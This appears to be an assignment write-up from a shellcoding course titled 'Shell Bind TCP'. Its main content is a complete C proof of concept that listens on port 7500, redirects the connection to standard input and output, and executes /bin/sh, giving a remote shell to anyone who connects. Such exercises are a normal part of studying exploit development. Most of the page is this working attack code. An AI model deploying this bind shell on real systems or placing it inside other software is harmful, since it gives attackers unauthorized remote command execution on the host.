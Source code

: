 Assignment #1: Shell Bind TCP
=============================

Instructions:
-------------
* Bind to a port
* Exec /bin/sh on incoming connection
* Port number should be easily configurable

PoC:
----

```
int main(void){
	int fd, newfd;
	struct sockaddr_in server_addr, client_addr;

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = htonl(INADDR_ANY);
	
	//socket
	fd = socket(AF_INET, SOCK_STREAM, 0);
	
	//bind
	bind(fd, (struct sockaddr *) &server_addr, 16);
	
	//listen
	listen(fd, 1);
	
	//accept
	newfd = accept(fd, NULL, NULL);
	
	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(newfd, 0);
	dup2(newfd, 1);
	dup2(newfd, 2);
	
	//execve /bin/sh
	execve("/bin/sh", NULL, NULL);
	
	return 0;
}
```
